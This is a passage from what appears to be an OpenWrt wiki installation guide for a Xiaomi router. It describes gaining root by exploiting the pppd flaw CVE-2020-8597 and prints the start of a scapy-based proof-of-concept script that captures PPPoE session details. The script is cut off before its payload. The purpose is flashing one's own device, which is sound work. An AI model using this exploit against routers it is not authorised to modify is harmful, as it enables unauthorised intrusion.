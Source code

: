 # and reboot the device
reboot
</code>

If all has gone well, you should be rebooting into OpenWrt.


==== PPPoE Exploit with python script. (Complicated Way) ====
  * A computer with an ethernet adapter
  * Two ethernet cables
  * Python 3 with this extensions(scapy, netcat, a statically compiled mipsel busybox binary and a http.server)
  * The OpenWrt images for this device
  * A script that implements [[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8597|CVE-2020-8597]] (see below)

An POC of CVE-2020-8597, from [[https://gist.github.com/namidairo/1e3fb3404c9f148474c06ae6616962f3|GitHub Gist]]

You need to change the interface to match the name of the interface connected to the Xiaomi router. Also, change the (beginning of) MAC address on the line ''if src.startswith("88:c3:97")'' to match your router. The full MAC address of the router is on a sticker attached to the router.

There's a good [[https://github.com/impulse/ac2100-openwrt-guide|AC2100-OpenWRT-Guide at GitHub]] with pictures to explain the installation procedure. Guide based on MacOS, it is very likely same at Linux but could be different at Windows.

== Exploit script ==

We will be referring to this as ''pppd-cve.py'' throughout the process.

<code>
# Based on a PoC by "WinMin" (https://github.com/WinMin/CVE-2020-8597)
from scapy.all import *
from socket import *

interface = "eth0"

def mysend(pay,interface = interface):
    sendp(pay, iface = interface)

def packet_callback(packet):

    global sessionid, src, dst
    sessionid = int(packet['PPP over Ethernet'].sessionid)
    dst = (packet['Ethernet'].dst)
    src = (packet['Ethernet'].src)
    # In case we pick up Router -> PPPoE server packet
    if src.startswith("88:c3:97") or src.startswith("8c:53:c3") :
        src,dst = dst,src
    print("sessionid:" + str(sessionid))
    print("src:" + src)
    print("dst:" + dst)
